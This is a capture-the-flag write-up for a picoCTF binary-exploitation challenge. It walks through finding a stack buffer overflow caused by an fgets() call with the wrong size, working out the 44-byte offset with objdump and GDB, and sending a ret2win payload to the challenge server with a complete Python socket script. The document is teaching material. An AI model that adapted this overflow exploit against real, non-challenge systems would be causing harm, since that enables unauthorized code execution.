










# Echo Escape 2

**Category:** Binary Exploitation
**Difficulty:** Medium
**Author:** Yahaya Meddy

---

## Challenge Description

The challenge says that the developer tried to make the program safer by using `fgets()` instead of unsafe input functions.

However, `fgets()` is only safe when the size argument matches the real size of the destination buffer.

In this challenge, `fgets()` is used with the wrong size, which still allows a stack-based buffer overflow.

The goal is to redirect execution to the hidden `win()` function and print the flag.

---

## Source Code Review

I started by reviewing the provided source code.

```c
void win() {
    FILE *fp = fopen("flag.txt", "r");
    if (!fp) {
        perror("[!] Could not open flag.txt");
        exit(1);
    }

    char flag[128];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fflush(stdout);
    fclose(fp);
}

void vuln() {
    char buf[32];

    printf("Enter the secret key: ");
    fflush(stdout);

    fgets(buf, 128, stdin);

    printf("You entered:, %s\n", buf);
}

int main() {
    vuln();
    puts("Goodbye!");
    return 0;
}
```



The interesting function is `win()` because it opens `flag.txt`, reads the flag, and prints it:

```c
void win() {
    FILE *fp = fopen("flag.txt", "r");
    ...
    printf("Flag: %s\n", flag);
}
```

However, `win()` is never called normally.

The vulnerable function is `vuln()`:

```c
char buf[32];
fgets(buf, 128, stdin);
```

The buffer has only `32` bytes, but `fgets()` is allowed to read up to `128` bytes.

So even though the developer used `fgets()`, the size argument is incorrect.

This creates a stack buffer overflow.

---

## Binary Information

I checked the binary using the `file` command:

```bash
file ./vuln
```



The output shows:

```text
ELF 32-bit LSB executable
Intel 80386
dynamically linked
not stripped
```

Important points:

* The binary is **32-bit**.
* Function addresses are 4 bytes.
* The exploit must use `p32()` / `struct.pack("<I", address)`.
* The binary is **not stripped**, so symbols like `win` are visible.

---

## Security Protections

I checked the binary protections with:

```bash
checksec --file=./vuln
```



Important results:

```text
No canary found
NX enabled
No PIE
```

This means:

* **No canary**: the overflow is not protected by a stack canary.
* **NX enabled**: stack shellcode execution is not the right approach.
* **No PIE**: binary addresses are static.

Since PIE is disabled, the address of `win()` is fixed.

This makes the challenge a classic `ret2win`.

---

## Disassembling `vuln()`

Next, I disassembled the vulnerable function:

```bash
objdump -d -Mintel ./vuln | sed -n '/<vuln>:/,/^$/p'
```



The important instructions are:

```asm
lea    eax,[ebp-0x28]
push   0x80
call   fgets@plt
leave
ret
```

The line:

```asm
lea eax,[ebp-0x28]
```

shows that the buffer is located at:

```text
ebp - 0x28
```

In a 32-bit stack frame, the saved return address is located at:

```text
ebp + 0x4
```

So the distance from the start of the buffer to the saved return address is:

```text
0x28 + 0x4 = 0x2c
```

And:

```text
0x2c = 44 bytes
```

So the theoretical offset is:

```text
44
```

I confirmed this value later using a cyclic pattern.

---

## Finding the Offset with a Cyclic Pattern

To confirm the offset practically, I generated a cyclic pattern of length `128`.

The program reads up to `128` bytes:

```c
fgets(buf, 128, stdin);
```

So a 128-byte cyclic pattern is enough to overwrite the return address.

I ran the binary inside GDB:

```bash
gdb -q ./vuln
```

Then I started the program:

```gdb
run
```

I pasted the cyclic pattern when the program asked for the secret key.

The program crashed with a segmentation fault.



The overwritten instruction pointer was:

```text
EIP = 0x35624134
```

This proves that the cyclic pattern reached and overwrote the saved return address.

---

## Decoding the EIP Value

The value shown in `EIP` is a 32-bit little-endian value.

```text
0x35624134
```

The bytes are:

```text
34 41 62 35
```

Decoded as ASCII, this becomes:

```text
4Ab5
```



This substring comes from the cyclic pattern.

---

## Calculating the Exact Offset

I pasted the overwritten value into the cyclic pattern offset calculator.



The calculator returned:

```text
Offset: 44
```

So the saved return address is reached after:

```text
44 bytes
```

This confirms the offset we calculated from the disassembly:

```text
0x28 + 0x4 = 0x2c = 44
```

---

## Finding the Address of `win()`

To redirect execution, I needed the address of `win()`.

I used:

```bash
objdump -d ./vuln | grep -A10 '<win>'
```



The output shows:

```text
08049276 <win>:
```

Therefore:

```text
win = 0x08049276
```

Since the binary is 32-bit, this address must be packed as 4 bytes in little-endian order:

```text
0x08049276 -> 76 92 04 08
```

---

## Exploit Strategy

At this point, I had everything needed:

```text
offset = 44
win    = 0x08049276
```

The payload layout is:

```text
"A" * 44 + p32(win)
```

In Python:

```python
payload = b"A" * 44 + struct.pack("<I", 0x08049276)
```

When `vuln()` returns, the overwritten return address makes execution jump to `win()` instead of returning normally to `main()`.

---

## Local Exploit Test

Before attacking the remote service, I created a local fake flag:

```bash
echo 'picoCTF{local_test_flag}' > flag.txt
```

Then I tested the payload locally:

```python
import struct
import subprocess

offset = 44
win = 0x08049276

payload = b"A" * offset + struct.pack("<I", win)

p = subprocess.run(
    ["./vuln"],
    input=payload,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

print(p.stdout.decode(errors="ignore"))
```



The program printed:

```text
Flag: picoCTF{local_test_flag}
```

This confirmed that the exploit successfully redirected execution to `win()`.

---

## Remote Exploit

The remote service was running at:

```text
dolphin-cove.picoctf.net 50703
```

Because the payload contains raw bytes, I used a Python socket script instead of typing the payload manually into `nc`.

```python
#!/usr/bin/env python3
import socket
import struct

HOST = "dolphin-cove.picoctf.net"
PORT = 50703

OFFSET = 44
WIN = 0x08049276

payload = b"A" * OFFSET + struct.pack("<I", WIN)

def recv_all(sock, timeout=3):
    sock.settimeout(timeout)
    data = b""

    while True:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            break

    return data

def main():
    with socket.create_connection((HOST, PORT), timeout=10) as s:
        banner = s.recv(4096)
        print(banner.decode(errors="ignore"), end="")

        s.sendall(payload + b"\n")

        out = recv_all(s)
        print(out.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

After running the exploit:

```bash
python3 solve.py
```



The remote service executed `win()` and printed the flag.

---

## Final Exploit Script

```python
#!/usr/bin/env python3
import socket
import struct

HOST = "dolphin-cove.picoctf.net"
PORT = 50703

OFFSET = 44
WIN = 0x08049276

payload = b"A" * OFFSET + struct.pack("<I", WIN)

def recv_all(sock, timeout=3):
    sock.settimeout(timeout)
    data = b""

    while True:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            break

    return data

def main():
    with socket.create_connection((HOST, PORT), timeout=10) as s:
        print(s.recv(4096).decode(errors="ignore"), end="")
        s.sendall(payload + b"\n")
        print(recv_all(s).decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

---

## Solution Summary

```text
1. Review the source code.
2. Find the hidden win() function.
3. Notice the incorrect fgets() usage:
   char buf[32];
   fgets(buf, 128, stdin);
4. Confirm the binary is 32-bit.
5. Check protections:
   No canary, NX enabled, No PIE.
6. Disassemble vuln().
7. Observe the buffer at ebp-0x28.
8. Calculate theoretical offset:
   0x28 + 0x4 = 0x2c = 44.
9. Confirm offset with cyclic pattern:
   EIP = 0x35624134 -> offset 44.
10. Find win() address:
   0x08049276.
11. Build payload:
   b"A" * 44 + p32(0x08049276).
12. Send payload to the remote service.
13. Get the flag.
```

---

## Tools Used

```text
file
checksec
objdump
gdb
Wiremask cyclic pattern generator
CyberChef
Python socket
```

---

## Key Takeaways

* `fgets()` is safer than `gets()`, but only if the size argument is correct.
* Passing `128` to `fgets()` while the destination buffer is only `32` bytes still causes a buffer overflow.
* In 32-bit binaries, the saved return address is stored in `EIP`.
* A cyclic pattern is useful to find the exact offset to the saved return address.
* With No PIE, the address of `win()` remains fixed.
* This challenge is a classic 32-bit `ret2win`.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
